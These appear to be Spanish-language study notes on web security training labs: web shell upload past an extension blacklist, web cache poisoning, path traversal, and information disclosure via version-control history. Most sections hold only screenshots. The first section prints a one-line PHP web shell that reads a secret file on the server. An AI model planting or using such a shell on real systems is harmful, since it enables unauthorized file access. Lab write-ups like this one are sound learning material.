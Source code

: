 # Carga de shell web mediante omisión de lista negra de extensiones

Cargue un shell web PHP básico y luego úselo para extraer el contenido del archivo `/home/carlos/secret`

![[01.ShellWeb.png]]
```php 
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
![[02.ShellWeb.png]]
![[03.ShellWeb.png]]
![[04.ShellWeb.png]]
![[05.ShellWeb.png]]

# Envenenamiento de caché web con múltiples encabezados

![[01.EnvenenamientoCache.png]]
![[02.EnvenenamientoCache.png]]
![[03.EnvenenamientoCache.png]]
![[04.EnvenenamientoCache.png]]

# Recorrido de rutas de archivos , secuencias de recorrido eliminadas de forma no recursiva

![[01.FLP_SecuenciaNoRecursiva.png]]
![[02.FLP_SecuenciaNoRecursiva.png]]
![[03.FLP_SecuenciaNoRecursiva.png]]
# Divulgación de información en el historial de control de versiones

![[01.DivulgacionDeInformacion.png]]
![[02.DivulgacionDeInformacion.png]]
![[03.DivulgacionDeInformacion.png]]
![[04.DivulgacionDeInformacion.png]]
![[05.DivulgacionDeInformacion.png]]
![[06.DivulgacionDeInformacion.png]]
![[07.DivulgacionDeInformacion.png]]

